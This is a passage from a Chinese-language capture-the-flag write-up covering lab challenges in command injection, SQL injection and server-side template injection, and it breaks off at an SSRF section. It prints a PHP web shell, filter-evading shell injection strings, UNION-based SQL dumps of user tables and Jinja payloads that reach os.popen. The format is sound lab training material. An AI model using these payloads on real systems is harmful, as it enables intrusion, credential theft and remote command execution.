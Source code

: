 ```<?php system($_GET['cmd']);?>```
4.解密文字(base64)
![image](https://hackmd.io/_uploads/r1Yqae090.png)



## [Bonus] CMD06 
網址: http://ctfd-ais3.crazyfirelee.tw:9046/
![image](https://hackmd.io/_uploads/H1nxik6cR.png)
1.輸入:```$(l${x}s|base64${IFS}-w${IFS}0)```
![image](https://hackmd.io/_uploads/r1Ouj16cR.png)
2.發現它是Base64加密過的文字，解密完發現FLAG
![image](https://hackmd.io/_uploads/r1x3iJ6qC.png)
3.輸入:```$(ca${x}t${IFS}FLAG|base64${IFS}-w${IFS}0)```
![image](https://hackmd.io/_uploads/ryN7ny6cR.png)
4.發現它是Base64加密過的文字，解密完發現FLAG答案
![image](https://hackmd.io/_uploads/HyHi2JpqR.png)



# 06 - SQL Injection
## SQL01
網址: http://ctfd-ais3.crazyfirelee.tw:9051/
![image](https://hackmd.io/_uploads/rkhCGf6qA.png)
1.Account輸入:```admin'--``` (神奇的黑魔法)||Password隨便打
![image](https://hackmd.io/_uploads/HyKQmfa5A.png)

## SQL02
網址: http://ctfd-ais3.crazyfirelee.tw:9052/
![image](https://hackmd.io/_uploads/SyJ9aOpcA.png)
1.輸入:```()'UNION SELECT NULL,NULL,NULL,NULL#```
![image](https://hackmd.io/_uploads/SyLlAda90.png)
2.輸入```pp' UNION SELECT group_concat(schema_name),group_concat(schema_name),group_concat(schema_name),group_concat(schema_name) from information_schema.schemata#```
![image](https://hackmd.io/_uploads/SyZd0OT90.png)
3.輸入:```pp' UNION SELECT group_concat(table_name),group_concat(table_name),group_concat(table_name),group_concat(table_name) from information_schema.tables where table_schema='ApexPredators' #```
![image](https://hackmd.io/_uploads/Bkvq0dacC.png)
4.輸入:```pp' UNION SELECT id,username,password,isAdmin from ApexPredators.users#```
![image](https://hackmd.io/_uploads/SkOCRO690.png)
5.找找到帳密(帳:KubenBlisk 密:BliskLeader#2024)並登入
![image](https://hackmd.io/_uploads/HkJ91tp90.png)



# 07 - Server-Side Template Injection
## STI01
網址: http://ctfd-ais3.crazyfirelee.tw:9061/
![image](https://hackmd.io/_uploads/BJG0Yz69R.png)
1.輸入:``` {{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('cat FLAG').read()}}```
![image](https://hackmd.io/_uploads/Hk8g9GTcA.png)

## STI02
網址: http://ctfd-ais3.crazyfirelee.tw:9062/
![image](https://hackmd.io/_uploads/HkYtqGpcR.png)

輸入:```{{request.application.__globals__.__builtins__.__import__('os').popen('cat FLAG').read()}}```
![image](https://hackmd.io/_uploads/r145cGTcC.png)



# 08 - Server-Side Request Forgery
## SRF01
```